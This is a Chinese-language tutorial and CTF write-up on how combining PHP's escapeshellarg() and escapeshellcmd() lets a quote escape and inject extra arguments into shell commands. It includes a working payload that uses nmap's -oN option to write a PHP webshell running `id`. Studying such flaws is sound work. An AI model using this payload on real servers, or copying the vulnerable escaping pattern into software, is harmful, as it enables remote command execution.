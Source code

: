 ### escapeshellarg

php手册上的解释为:

> escapeshellarg() 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数，shell 函数包含 exec(), system() 执行运算符(反引号)



错误的使用:

经过 escapeshellarg 函数处理过的参数被拼凑成 shell 命令 并且被双引号包裹这样就会造成漏洞

主要在于bash中双引号和单引号解析变量是有区别的

在解析单引号的时候 , 被单引号包裹的内容中如果有变量 , 这个变量名是不会被解析成值的
但是双引号不同 , bash 会将变量名解析成变量的值再使用

```bash
lj@lj:/usr/share/virtualbox$ echo `date`
2018年 01月 29日 星期一 11:38:08 CST
lj@lj:/usr/share/virtualbox$ echo '`date`'
`date`
lj@lj:/usr/share/virtualbox$ echo "`date`"
2018年 01月 29日 星期一 11:38:21 CST
lj@lj:/usr/share/virtualbox$ echo "'`date`'"
'2018年 01月 29日 星期一 11:38:27 CST'
lj@lj:/usr/share/virtualbox$ echo '"`date`"'
"`date`"
```


如上可知， 如果参数用了 escapeshellarg 函数过滤单引号，但参数在拼接命令的时候用了双引号的话还是会导致命令执行的漏洞。


具体漏洞参考: https://www.jianshu.com/p/162844f45f1d


### escapeshellcmd

php手册上的解释为:

escapeshellcmd() 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义。 此函数保证用户输入的数据在传送到 exec() 或 system() 函数，或者 执行操作符 之前进行转义。

反斜线（\）会在以下字符之前插入： &#;`|*?~<>^()[]{}$\, \x0A 和 \xFF。 ` ' 和 " 仅在不配对儿的时候被转义`。 在 Windows 平台上，所有这些字符以及 % 和 ! 字符都会被空格代替。


```php
<?php 

$s = "`ls`";
echo escapeshellcmd($s);

>>>
\`ls\`
```


### escapeshellarg() + escapeshellcmd() 之殇

这两个函数都会对单引号进行处理,但还是有区别的,区别如下:

```bash
echo escapeshellarg("l's")."\n";
echo escapeshellcmd("l's")."\n";
echo escapeshellarg("l''s")."\n";
echo escapeshellcmd("l''s")."\n";

>>>
'l'\''s'
l\'s
'l'\'''\''s'
l''s
```

对于单个单引号, escapeshellarg()函数转义后,还会在左右各加一个单引号,但escapeshellcmd()函数是直接加一个转义符

对于成对的单引号, escapeshellcmd()函数默认不转义,但escapeshellarg()函数转义:


我们来看看一个demo:

```php
<?php 
$param = "172.17.0.2' -v -d a=1";
$ep = escapeshellarg($param);
$eep = escapeshellcmd($ep);
$cmd = "curl ".$eep;
echo $ep."\n";
echo $eep."\n";
echo $cmd."\n";
system($cmd);

>>>
'172.17.0.2'\'' -v -d a=1'
'172.17.0.2'\\'' -v -d a=1\'
curl '172.17.0.2'\\'' -v -d a=1\'
* Rebuilt URL to: 172.17.0.2\/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 172.17.0.2...

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:--     0
  0     0    0     0    0     0      0      0 --:--:--  0:00:02 --:--:--     0* connect to 172.17.0.2 port 80 failed: 没有到主机的路由
* Failed to connect to 172.17.0.2\ port 80: 没有到主机的路由
* Closing connection 0
```

$host参数先用escapeshellarg()函数过滤后再用escapeshellcmd()过滤, 这样就会出问题了,

escapeshellarg 先转义了一个单引号,然后引入了一对单引号, escapeshellcmd 不会转义成对的单引号,但是会转义转移符`\`,这样, 转移符作用失效,逃逸出来一个单引号. 

> 顺序不能反了, 如果是先用escapeshellcmd函数过滤,再用的esc
apeshellarg函数过滤,则没有这个问题.

```
'172.17.0.2'\'' -v -d a=1'
'172.17.0.2'\\'' -v -d a=1\'
```

逃逸出来单引号有什么作用呢?  在curl命令中, 正常情况下我们输入的所有数据都会被当做host主机部分去访问, 但是如果我们逃逸出来了单引号, 我们就可以加入一些其他参数了.


我们来看一道题目:

```php
<?php 

// include("flag.php");
//echo escapeshellcmd("127.1'tar cvf lj ");
// exit();

if(!isset($_GET['host'])){
    highlight_file(__FILE__);
}else{
    $host =(string)$_GET['host'];
    $host=escapeshellarg($host);
    $host=escapeshellcmd($host);
    var_dump($host);
    $sandbox = md5("box".$_SERVER['REMOTE_ADDR']);
    echo "you are in sandbox: ".$sandbox."<br/>";
    @mkdir($sandbox);
    chdir($sandbox);
    echo "<pre>";
    echo system("nmap -T5  -sT -Pn --host-timeout 2 -F  ".$host);
    echo "</pre>";
}
?>
```

我们通过闭合单引号可以引入nmap的其他参数,虽然我们没法直接闭合命令,但nmap的一些参数就可以getshell了.


    ?host=%27%20<?=`id`;?> -oN 2.php-v 3
    
说明: nmap的-oN命令表示到处正常文件, 这里我们可以自定义文件名为2.php, 我们来看一下写入的文件内容

```php
# Nmap 7.01 scan initiated Tue Feb 27 14:21:40 2018 as: nmap -T5 -sT -Pn --host-timeout 2 -F -oN 2.php -v \ <?=`id`;?> 3'
Failed to resolve "\".
Failed to resolve "<?=`id`;?>".
Failed to resolve "3'".
Read data files from: /usr/bin/../share/nmap
WARNING: No targets were specified, so 0 hosts scanned.
# Nmap done at Tue Feb 27 14:21:40 2018 -- 0 IP addresses (0 hosts up) scanned in 0.05 seconds
```

访问成功执行命令.

